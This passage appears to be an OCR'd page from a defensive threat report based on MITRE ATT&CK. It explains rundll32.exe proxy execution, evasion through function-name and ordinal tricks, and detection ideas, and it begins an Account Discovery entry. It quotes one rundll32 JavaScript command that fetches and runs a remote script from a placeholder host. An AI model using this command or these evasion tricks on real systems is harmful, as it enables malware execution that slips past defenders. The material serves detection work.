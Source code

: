 Rundll32.exe can also be used to execute [Control Panel](https://attack.mitre.org/techniques/T1218/002) Item files (.cpl) through the undocumented shell32.dll functions <code>Control_RunDLL</code> and <code>Control_RunDLLAsUser</code>. Double-clicking a .cpl file also causes rundll32.exe to execute.(Citation: Trend Micro CPL) For example, [ClickOnce](https://attack.mitre.org/techniques/T1127/002) can be proxied through Rundll32.exe.

Rundll32 can also be used to execute scripts such as JavaScript. This can be done using a syntax similar to this: <code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"</code>  This behavior has been seen used by malware such as Poweliks. (Citation: This is Security Command Line Confusion)

Adversaries may also attempt to obscure malicious code from analysis by abusing the manner in which rundll32.exe loads DLL function names. As part of Windows compatibility support for various character sets, rundll32.exe will first check for wide/Unicode then ANSI character-supported functions before loading the specified function (e.g., given the command <code>rundll32.exe ExampleDLL.dll, ExampleFunction</code>, rundll32.exe would first attempt to execute <code>ExampleFunctionW</code>, or failing that <code>ExampleFunctionA</code>, before loading <code>ExampleFunction</code>). Adversaries may therefore obscure malicious code by creating multiple identical exported function names and appending <code>W</code> and/or <code>A</code> to harmless ones.(Citation: Attackify Rundll32.exe Obscurity)(Citation: Github NoRunDll) DLL functions can also be exported and executed by an ordinal number (ex: <code>rundll32.exe file.dll,#1</code>).

Additionally, adversaries may use [Masquerading](https://attack.mitre.org/techniques/T1036) techniques (such as changing DLL file names, file extensions, or function names) to further conceal execution of a malicious payload.(Citation: rundll32.exe defense evasion) 
#### Stellar Electric Analysis: 
### Data Sources:
- Process: Process Creation
- Command: Command Execution
- File: File Metadata
- Module: Module Load
### Detection Suggestions:
Use process monitoring to monitor the execution and arguments of rundll32.exe. Compare recent invocations of rundll32.exe with prior history of known good arguments and loaded DLLs to determine anomalous and potentially adversarial activity.

Command arguments used with the rundll32.exe invocation may also be useful in determining the origin and purpose of the DLL being loaded. Analyzing DLL exports and comparing to runtime arguments may be useful in uncovering obfuscated function calls.
#### Examples: 
- Lazarus Group has used rundll32 to execute malicious payloads on a compromised host.[[1]](https://x.com/ESETresearch/status/1458438155149922312)
### [Account Discovery: Domain Account (T1087.002)](https://attack.mitre.org/techniques/T1087/002)
#### Score: 30
#### Description:
Adversaries may attempt to get a listing of domain accounts. This information can help adversaries determine which domain accounts exist to aid in follow-on behavior such as targeting specific accounts which possess particular privileges.
